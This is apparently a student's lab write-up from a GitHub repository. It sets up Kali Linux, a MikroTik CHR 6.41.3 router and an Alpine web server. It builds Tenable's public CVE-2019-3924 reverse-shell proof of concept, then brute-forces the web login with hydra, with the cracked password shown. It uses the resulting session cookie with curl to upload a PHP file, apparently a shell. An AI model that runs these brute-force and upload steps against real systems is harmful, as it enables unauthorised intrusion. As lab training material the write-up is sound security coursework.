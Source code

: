 ## Lab1&5

Setup:
- Kali Linux (attacker)
- alpline-lab5 (victim)
- Mikrotik CHR v 6.41.3

About Mikrotik CHR v 6.41.3:
CHR raw disk image downloaded form https://web.archive.org/web/20180328083525/https://mikrotik.com/download

![img-0](data/img-0.png)

Login: admin 
Password: `<empty string>`

![img-1](data/img-1.png)

KaliLinux as attacker host:
Download img from https://mac.getutm.app/gallery/kali-2023
And follow this guide https://docs.getutm.app/guides/kali/

The above steps were from lab 1, alpline-lab5 is specific for this paricular lab, installation process is the same as in previous labs. 

- Kali Linux ip -- 192.168.64.9
- Mikrotik CHR ip -- 192.168.64.16
- alpline-lab5 ip -- 10.42.3.100 (since i am doing this lab on macos)

First we open `192.168.64.16` in or browser, and we should see two interfaces:

![img-2](data/img-2.png)

![img-3](data/img-3.png)

Next we create interface lists to organize network interfaces into logical groups: "WAN" contains the ether3 (192.168.64.16/24) interface facing the NAT network where the Kali Linux attacker lives, "LAN" contains the ether2 (192.168.128.5/24) interface connecting to the Host-only network where the Alpine web server lives.

![img-4](data/img-4.png)

![img-5](data/img-5.png)


Next we configure NAT masquerading (so the Alpine server can access the internet for initialization)

![img-6](data/img-6.png)

And enable dude

![img-7](data/img-7.png)

Orther detailed configus, and overall expected CHR config is located in `chr_config.txt`

```
[admin@MikroTik] > export compact 
# may/04/2025 19:02:08 by RouterOS 6.41.3
# software id = 
#
#
#
/interface list
add name=WAN
add name=LAN
/interface wireless security-profiles
set [ find default=yes ] supplicant-identity=MikroTik
/dude
set enabled=yes
/interface list member
add interface=ether1 list=WAN
add interface=ether2 list=LAN
/ip address
add address=10.42.3.254/24 interface=ether2 network=10.42.3.0
/ip dhcp-client
add dhcp-options=hostname,clientid disabled=no interface=ether1
/ip firewall nat
add action=masquerade chain=srcnat out-interface-list=WAN
[admin@MikroTik] >  
```

Now, [exploit](https://github.com/tenable/routeros/blob/master/poc/cve_2019_3924/README.md)
Clone `https://github.com/tenable/routeros`

```
sudo apt install libboost-dev libboost-regex-dev libssl-dev build-essential cmake
cd routeros/poc/cve_2019_3924/
```

Here we first need to moddify the exploit 

```
mkdir build
cd build
cmake ..
make
./nvr_rev_shell --help # ot check
```

Now go to `http://10.42.3.100/init.php` and i enter my ucu mail.

![img-8](data/img-8.png)


Now we need to find the password

```
hydra -L user_list.txt \
-P 10-mil.txt \
-V \
10.42.3.100 http-post-form '/login.php:username=^USER^&password=^PASS^&wp-submit=Log+In:F=Invalid username'
```

And here it is
```
[80][http-post-form] host: 10.42.3.100   login: admin   password: spiderman
[STATUS] attack finished for 10.42.3.100 (valid pair found)
```

Now we can log in

![img-9](data/img-9.png)

```
curl -X POST http://10.42.3.100/login.php \
  -d "username=admin&password=spiderman" \
  -c cookies.txt \
  -v
```

Cookie, session id: 8f14e45fceea167a5a36dedd4bea2543

With this session id we can now upload files

```
curl -X POST http://10.42.3.100/api_upload.php \
  -H "Cookie: PHPSESSID=8f14e45fceea167a5a36dedd4bea254" \
  -H "User-Agent: curl/8.5.0" \
  -F "file=@a.php"
```
